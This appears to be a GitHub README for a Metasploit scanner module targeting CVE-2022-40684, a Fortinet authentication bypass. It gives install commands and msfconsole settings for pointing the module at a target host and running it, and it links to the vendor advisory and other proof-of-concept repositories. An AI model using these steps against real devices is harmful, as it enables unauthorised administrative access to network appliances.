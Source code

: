 # CVE-2022-40684-metasploit-scanner
An authentication bypass using an alternate path or channel in Fortinet product

# preparation POC
```cmd
git clone https://github.com/TaroballzChen/CVE-2022-40684-metasploit-scanner
cd CVE-2022-40684-metasploit-scanner
mkdir -p ~/.msf4/modules/auxiliary/scanner/http
cp fortinet_product_auth_bypass.py ~/.msf4/modules/auxiliary/scanner/http/
chmod +x ~/.msf4/modules/auxiliary/scanner/http/fortinet_product_auth_bypass.py
msfconsole
```

# POC usage
```text
set rhosts <vuln ip/host>
set rport <vuln port>
set rssl <default: true for https>
set username <default: admin>
exploit
```

# result
![poc](poc.png)

# reference
- https://www.fortiguard.com/psirt/FG-IR-22-377
- https://github.com/horizon3ai/CVE-2022-40684
- https://github.com/carlosevieira/CVE-2022-40684
- https://github.com/Chocapikk/CVE-2022-40684